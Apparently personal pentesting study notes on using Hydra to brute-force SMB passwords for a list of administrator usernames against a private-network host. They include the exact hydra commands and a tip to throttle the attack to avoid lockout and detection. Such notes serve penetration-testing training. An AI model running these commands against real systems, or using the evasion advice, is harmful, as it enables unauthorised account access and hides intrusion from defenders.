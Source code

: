 ```yaml
---
tags:
  - Pentesting
aliases:
  - 00xNetrunner
---
```






![[SystemHacking_Figure_1.png|200]]

# 1.0 HYDRA
---
![[hydra-logo.svg|250]]
After the enumerating stage of the pentest we would have gotten a list of the administrators we are going to take these usernames and add the, to a .txt file 
Here is a list of all the admins

Administrator
A.George
G.Walsh
B.Greene
M.Mills
P.Armstrong
Y.Burton
B.Rice

we have added them to a list called users.txt
![[Pasted image 20231111143527.png]]

Now that we have the list on names saved we open up the terminal and we run hydra

```bash
hydra -V -L users.txt -P /usr/share/wordlists/small.txt smb://192.168.10.1 -o passwords.txt
```

if you want to speed this up you can run this instead
```bash
hydra -L users.txt -P /usr/share/wordlists/small.txt -t 16 smb://192.168.10.1
```
>This is a parallel task, it will speed up the speed of the bruteforce attack, but may also trigger a lockout 
>>to avoid detection, it would be wise to create a script that has sleep intervals or add -t 4 somewhere in the command

###### 1.2 Hydra Command Breakdown
---------
**Command**:  **`hydra`** -L users.txt -P /usr/share/wordlists/small.txt -t 16 smb://192.168.10.1 -o cracked.txt
